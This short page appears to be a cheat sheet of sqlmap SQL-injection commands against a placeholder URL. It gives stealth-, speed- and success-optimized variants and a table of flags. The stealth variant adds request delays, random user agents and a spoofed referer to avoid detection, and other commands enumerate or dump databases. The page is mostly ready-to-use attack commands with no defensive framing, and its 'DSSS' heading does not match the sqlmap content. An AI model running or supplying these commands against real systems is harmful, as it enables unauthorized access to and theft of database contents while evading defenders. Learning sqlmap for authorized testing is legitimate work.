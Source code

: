 ## DSSS Optimization

### Stealth-Optimized Commands
```bash
# Slow and stealthy approach
sqlmap -u "http://example.com/vuln.php?id=1" \
  --delay=2 \
  --time-sec=5 \
  --retries=3 \
  --threads=1 \
  --level=1 \
  --risk=1 \
  --random-agent \
  --referer="http://google.com" \
  --dbs
```

### Speed-Optimized Commands
```bash
# Fast extraction (use cautiously)
sqlmap -u "http://example.com/vuln.php?id=1" \
  --threads=10 \
  --batch \
  --keep-alive \
  --null-connection \
  --dump \
  --optimize
```

### Success-Optimized Commands
```bash
# Maximum success rate
sqlmap -u "http://example.com/vuln.php?id=1" \
  --technique=BEUSTQ \
  --union-cols=10 \
  --union-char=123 \
  --hex \
  --predict-output \
  --dbs
```

## Key Optimization Flags

| Category | Flag | Purpose |
|----------|------|---------|
| **Speed** | `--threads=10` | Increase parallel threads |
| | `--keep-alive` | Use persistent connections |
| | `--null-connection` | Retrieve length without HTTP response |
| **Stealth** | `--delay=1` | Delay between requests |
| | `--random-agent` | Rotate user agents |
| | `--timeout=30` | HTTP timeout |
| **Success** | `--technique=BEUSTQ` | Use all injection techniques |
| | `--hex` | Use hex conversion |
| | `--predict-output` | Predict output values |
